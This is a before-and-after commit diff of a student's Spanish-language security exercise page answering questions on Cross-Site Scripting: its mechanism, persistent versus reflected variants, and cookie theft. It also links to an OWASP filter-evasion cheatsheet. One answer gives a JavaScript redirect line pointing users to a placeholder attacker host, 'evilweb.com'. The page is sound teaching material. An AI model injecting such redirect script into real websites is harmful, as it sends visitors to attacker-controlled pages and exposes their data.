

Before and after one commit to nil11503/RetosSeguridad, a plain HTML site: page Reto 4/4.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Actualizar Contenido

```diff
--- a/Reto 4/4.html
+++ b/Reto 4/4.html
@@ -13,48 +13,49 @@
 
     <body>
         <h4>¿Cómo funciona la técnica de Cross-Site Scripting?</h4>
-        <pre>
+        <p>El XSS para cuando el desarollador no ha desinfectado las entradas de texto (campos de busqueda por ejemplo) y el cliente tiene la posibilidad de injectar codigo JS con estes campos</p>
+        <!-- Fin pregunta 1 -->
 
-        </pre><!-- Fin pregunta 1 -->
-
-        <h4>¿Por qué decimos que JavaScript "está de nuestro lado?</h4>
-        <pre>
-
-        </pre><!-- Fin pregunta 2 -->
+        <h4>¿Por qué decimos que JavaScript está de nuestro lado?</h4>
+        <p>Porque JS se ejecuta en el cliente, en nuestros PCs</p>
+        <!-- Fin pregunta 2 -->
 
         <h4>¿Qué debemos encontrar para llevar a cabo un XSS?</h4>
-        <pre>
-
-        </pre><!-- Fin pregunta 3 -->
+        <p>Unos campos en cual se puede poner texto y hacer unos testos basados con lo que se ha encontrado en el codigo de la pagina web</p>
+        <!-- Fin pregunta 3 -->
 
         <h4>¿Qué se puede lograr explotando esta vulnerabilidad?</h4>
-        <pre>
-
-        </pre><!-- Fin pregunta 4 -->
+        <p>Se puede ...</p>
+        <ul>
+            <li>robar los cookies de los clientes y/o ejecutar una escalacion vertical y/o horizontal</li>
+            <li>robar los datos de los clientes</li>
+            <li>instalar viruses en los clientes</li>
+        </ul>
+        <p>Todos estos cuando alquien realiza una conección al servidor, la gravedad del ataque depende de las hablidades del atacante</p>
+        <!-- Fin pregunta 4 -->
 
         <h4>¿Cuál es la diferencia entre Cross-Site Scripting persistente y reflejado?</h4>
-        <pre>
-
-        </pre><!-- Fin pregunta 5 -->
+        <p>
+El persistente es persistente, se queda en el servidor hasta que un admin elimina el ataque (ej: un chat en web, porque tiene el DB como historial) <br>
+El reflejado se ejecuta en el lado del cliente y no se queda en el servidor, este tipo de XSS se puede ejecutar con la ayuda de los campos de busquda, parametros en el URL ...
+        </p><!-- Fin pregunta 5 -->
 
         <h4>¿Por qué es interesante para un atacante obtener la cookie de un usuario?</h4>
-        <pre>
+        <p>Porque en los cookies se pueden guardan datos importantes, como el ID del usuario o su tipo (guest, user, admin) </p>
+        <!-- Fin pregunta 6 -->
 
-        </pre><!-- Fin pregunta 6 -->
-
-        <h4>¿Qué significa realizar un ataque Dos al navegador?</h4>
+        <h4>¿Qué significa realizar un ataque DoS al navegador?</h4>
         <pre>
 
         </pre><!-- Fin pregunta 7 -->
 
         <h4>¿Cómo puede un atacante redireccionar a los usuarios hacia otro sitio con una inyección en JavaScript?</h4>
-        <pre>
+        <p>Con un ataque persistente <span style="background-color: #282a36; color: #f8f8f2; border-radius: 5px; padding: 0px 5px 0px 5px; font-weight: 500;">windows.location.href = "http://evilweb.com/?get_data";</span></p>
+        <!-- Fin pregunta 8 -->
 
-        </pre><!-- Fin pregunta 8 -->
-
-        <h4>¿Cómo podemos saltar los filtros que encontramos en la web?</h4>
-        <pre>
-
-        </pre><!-- Fin pregunta 9 -->
+        <a href="https://owasp.org/www-community/xss-filter-evasion-cheatsheet">
+            <h4>¿Cómo podemos saltar los filtros que encontramos en la web?</h4>
+        </a>
+        <!-- Fin pregunta 9 -->
     </body>
 </html>
```
Also changed, not shown: Reto 2/2.html (+5 -7 lines), Reto 3/3.html (+4 -6 lines).
